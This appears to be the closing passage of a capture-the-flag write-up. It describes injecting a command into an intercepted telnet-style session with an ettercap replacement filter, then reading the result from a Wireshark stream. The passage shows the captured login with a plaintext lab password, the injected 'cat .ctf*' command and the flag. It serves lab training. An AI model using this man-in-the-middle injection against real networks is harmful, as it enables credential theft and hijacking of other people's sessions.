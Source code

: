 If things have worked correctly after 30 seconds, or a min or so, you will see a message in the ettercap output field "data replaced"

Once you see that go to the [wireshark pcap file](listen2.pcapng), find the tcp stream you want, follow the [conversation](tcpstream2.txt)

and if things are going well for you you should see something similar to this:
```
..... ..#..'..... ..#..'..............!.................!......Ubuntu 16.04.3 LTS
4d437449cdb8 login: ...piggy
Password: I8elieve1CanFly

Last login: Mon Feb 26 23:00:52 UTC 2018 on pts/0
Welcome to Ubuntu 16.04.3 LTS (GNU/Linux 4.4.0-1052-aws x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage
piggy@4d437449cdb8:~$ ls -la 
ls -la 
total 52
drwxr-xr-x 1 piggy piggy  4096 Feb 22 00:14 .
drwxr-xr-x 1 root  root   4096 Feb 16 20:57 ..
-rw------- 1 piggy piggy 19779 Feb 26 23:01 .bash_history
-rw-r--r-- 1 piggy piggy   220 Aug 31  2015 .bash_logout
-rw-r--r-- 1 piggy piggy  3771 Aug 31  2015 .bashrc
drwx------ 2 piggy piggy  4096 Feb 22 00:10 .cache
-rw-r--r-- 1 root  root     51 Feb 16 20:57 .ctf_flag
-rw-r--r-- 1 piggy piggy   655 May 16  2017 .profile
drwxr-xr-x 6 root  root   4096 Feb 16 20:57 mini-ipam-driver
piggy@4d437449cdb8:~$ cd mini-ipam-driver
cat .ctf*
gigem{trust_on_the_internet_is_a_way_to_get_eaten}
piggy@4d437449cdb8:~$ am-driver
-bash: am-driver: command not found
piggy@4d437449cdb8:~$ ls -la 
exit
```
And there is your flag: gigem{trust_on_the_internet_is_a_way_to_get_eaten}

You can see that the rest of the cd mini-ipam-driver command still exists so i guess that means the command in the filter: DATA.data = "cat .ctf*\n"; doesn't completely overwrite all data that is there, and maybe if it was to long in replacing exisitng dating bad things would happen...maybe idk all the details, but flag aquired.

And as I said I was able to do straw house and brick house the exact same way, I just did a different search in my filter.
